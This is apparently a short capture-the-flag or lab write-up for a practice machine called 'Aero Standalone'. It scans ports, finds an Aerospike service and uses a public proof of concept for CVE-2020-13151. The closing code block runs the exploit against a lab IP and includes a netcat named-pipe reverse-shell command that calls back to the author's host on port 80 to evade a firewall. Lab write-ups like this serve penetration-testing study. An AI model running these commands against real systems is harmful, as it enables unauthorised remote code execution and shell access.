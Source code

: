 # Aero Standalone

I start of with a scan for open ports:

<figure><img src="../../../../.gitbook/assets/image (200).png" alt=""><figcaption></figcaption></figure>

I look through all the ports and http pages but don't find anything and end up looking at the wierd 300X ports&#x20;

<figure><img src="../../../../.gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>

that seems to be related to our box, but to run this program i need to install a virtual env:

```
sudo apt install python3-venv
python -m venv venv
source venv/bin/activate
```

I had some problems getting the poc to work:

{% embed url="https://b4ny4n.github.io/network-pentest/2020/08/01/cve-2020-13151-poc-aerospike.html" %}

And i got a shell with those commands:

<pre class="language-sh"><code class="lang-sh"><strong>#checking if i have command execution
</strong><strong>python3 cve2020-13151.py --ahost 192.168.127.143 --cmd 'whoami'
</strong><strong>#getting my reverse shell and bypassing firewall using port 80:
</strong>python3 cve2020-13151.py --ahost 192.168.127.143 --cmd 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&#x26;1|nc 192.168.45.238 80 >/tmp/f'
</code></pre>

